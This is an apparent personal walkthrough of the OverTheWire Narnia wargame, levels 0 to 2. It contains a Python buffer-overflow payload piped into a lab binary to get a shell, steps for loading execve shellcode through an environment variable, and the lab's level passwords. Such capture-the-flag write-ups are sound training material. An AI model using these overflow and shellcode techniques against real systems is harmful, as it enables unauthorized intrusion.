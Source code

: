 # Walkthrough for the Narnia of OTW

## Introduction:
Try it for yourself before you look for help ;)

## Preparations
I added the server ``narnia.labs.overthewire.org'' and port 2226
into the ssh config file:

    Host narnia.labs.overthewire.org
    port 2226

## Level 0:

Username: narnia0
Passwort: narnia0

The file ist stored in the directory /narnia, the application
is named narnia0, the source code is given in the file narnia0.c.

    cd /narnia

First of all we run the application once and take a look, what it does.

    ./narnia0

After prompting us with the target to change (aka. ``correct'') the value
from 0x41414141 -> 0xdeadbeef we are given the chance to enter something.
Entering ``something'' results in a hint, that this was not correct

    ./narnia0
    something

A single look into the source shows the path. The memory layout and use
of scanf cries for a buffer overflow. Now we just have to generate the payload
and ship it to the program.

Python can be used to create the payload:

    python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))" | ./narnia0

which can be piped to the file. Now we are not yelled at, but nothing more is
happening. This is due to line 32. The opened shell is closed directly. This
can be fixed by piping multiple commands into the application:

    (python -c "print(20*'a' + chr(0xef) + chr(0xbe) + chr(0xad) + chr(0xde))"; cat)
        | ./narnia0

With the command ``whoami'' we can check, if everything worked:
    whoami
    -> narnia1

Fine, seems like it worked! Now we cat the password for the next level

    cat /etc/narnia_pass/narnia1

### Lessons learned:

Use ``cat'' to pass the input into the opened shell. This will be used in
many more cases.


## Level 1:

Username: narnia1
Passwort: [ efeidiedae ]

A quick peek in the source code shows, that the env var EGG has to be set.
Setting the var to commands like **ls** or **/bin/sh** results in a segfault.
This cries for runnable shellcode to be used.  We will use a shells-script from
a page liek shell-storm. At this moment i'm not capable of writing my own
shell-script from scratch without destroying everything.

Since we want a simple execve to bash i used the following script
    http://shell-storm.org/shellcode/files/shellcode-606.php
save the shellcode without the quotation marks and linebreaks in
a file **shellcode.comp**, upload it via scp and just pass it to EGG via echo:
    export EGG=$(echo -e $(cat shellcode.comp))

Now i can run ./narnia1, get the credentials for narnia2  and be happy

## Level 2:

Username: narnia1
Passwort: [ nairiepecu ]
